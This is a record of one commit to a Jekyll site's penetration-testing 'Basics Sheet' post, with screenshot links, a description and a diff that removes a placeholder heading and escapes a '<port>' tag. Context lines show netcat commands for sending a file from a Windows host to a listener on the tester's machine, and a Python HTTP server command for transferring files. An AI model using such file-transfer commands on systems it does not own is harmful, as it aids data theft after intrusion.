

Before and after one commit to blkbrd/blkbrd.github.io, a Jekyll site: the page built from _posts/2017-09-05-Basics-Sheet.md, in a window 1280 px wide and 1400 px high, scrolled down 2160 px. Shown: the whole window, without its empty margins (160-989 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2017-09-05-Basics-Sheet.md
fixed tag (missing &lt;)

```diff
--- a/_posts/2017-09-05-Basics-Sheet.md
+++ b/_posts/2017-09-05-Basics-Sheet.md
@@ -266,7 +266,6 @@
 			<li>(get web pages or files)</li>
 		</ul>
  </ul>
- <h1> please excuse my mess...still formatting. Had to go! </h1>
 
 <h2>Reconnaissance</h2>
 <ul>
@@ -359,5 +358,5 @@
 	<li><code>root@kl~#  nc –l –p &lt;port&gt; > &lt;file&gt; </code>(on your platform to listen for file)</li>
 	<li><code>C:\> nc.exe &lt;your ip&gt; &lt;port&gt;  <  &lt;file to transfer&gt; </code></li>
 <li>transfer files with python</li>
-	<li><code>python –m SimpleHTTPServer <port> </code></li>
+	<li><code>python –m SimpleHTTPServer &lt;port&gt; </code></li>
 </ul>
```
